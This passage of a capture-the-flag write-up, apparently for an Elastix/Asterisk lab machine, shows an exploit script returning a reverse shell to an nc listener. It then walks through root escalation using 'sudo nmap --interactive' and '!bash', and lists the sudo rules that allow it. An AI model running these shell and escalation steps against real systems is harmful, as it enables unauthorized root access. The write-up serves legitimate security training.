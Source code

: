 
I’ll need to do it for the as well, or it will throw a different error. Once I have that, running results in a connection and a shell:`CipherString``python 18650.py`

    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.2] from (UNKNOWN) [10.10.10.7] 56205
    id
    uid=100(asterisk) gid=101(asterisk)
    

### Privesc to root

#### nmap

The comments in the exploit script suggest using to get to root, and that does work. I’ll run as root and then to run a command, like :`sudo nmap``nmap``![command]``bash`

    sudo nmap --interactive
    
    Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
    Welcome to Interactive Mode -- press h <enter> for help
    nmap> !bash
    bash-3.2# id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
    bash-3.2# cat /root/root.txt
    f2b76a2d************************
    

#### chmod

`sudo -l` shows there are a ton of things asterisk can run without a password as root:

    bash-3.2$ sudo -l
    Matching Defaults entries for asterisk on this host:
        env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
        LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
        LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
        LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
        XAUTHORITY"
    
    User asterisk may run the following commands on this host:
        (root) NOPASSWD: /sbin/shutdown
        (root) NOPASSWD: /usr/bin/nmap
        (root) NOPASSWD: /usr/bin/yum
        (root) NOPASSWD: /bin/touch
        (root) NOPASSWD: /bin/chmod
        (root) NOPASSWD: /bin/chown
        (root) NOPASSWD: /sbin/service
        (root) NOPASSWD: /sbin/init
        (root) NOPASSWD: /usr/sbin/postmap
        (root) NOPASSWD: /usr/sbin/postfix
        (root) NOPASSWD: /usr/sbin/saslpasswd2
        (root) NOPASSWD: /usr/sbin/hardware_detector
        (root) NOPASSWD: /sbin/chkconfig
        (root) NOPASSWD: /usr/sbin/elastix-helper
    